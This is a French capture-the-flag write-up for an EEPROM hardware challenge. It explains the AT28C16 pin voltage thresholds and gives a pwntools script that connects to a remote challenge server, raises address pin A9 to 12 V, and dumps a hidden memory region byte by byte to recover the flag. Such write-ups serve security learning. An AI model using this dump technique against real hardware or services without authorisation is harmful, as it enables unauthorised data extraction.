





## EEPROM leak



D'après cette documentation http://cva.stanford.edu/classes/cs99s/datasheets/at28c16.pdf :





On doit donc soumettre `Vil (low) < 0.8 V` et `Vih (high) > 2V`, prenons par exemple:

```py
set_ce_pin(0.1)
set_oe_pin(0.1)
set_we_pin(4.5)
```

## Dump memory


Une fois la mémoire leak, on peut lire les addresses entre 7EOH et 77FH:



Voici le script final

```py
from pwn import *

r = remote('94.237.48.219', 31399)

r.sendline(b'set_ce_pin(0.1)')
r.sendline(b'set_oe_pin(0.1)')
r.sendline(b'set_we_pin(4.5)')

def get_volts(num):
    volts = [int(digit) * 4.5 for digit in bin(num)[2:]]
    # Set A9 to 12V
    volts[1] = 12.0
    return volts

start = 0x7E0
end = 0x7FF
for i in range(start, end + 1):
    volts = get_volts(i)
    r.sendline(f"set_address_pins({volts})".encode())
    r.sendline(b"read_byte()")
    r.recvuntil(b'Read 0x')
    line = r.recvline().decode().strip().split(' ')
    byte = int(line[0], 16)
    print(f"{chr(byte)}", end='')
   
print("")
```



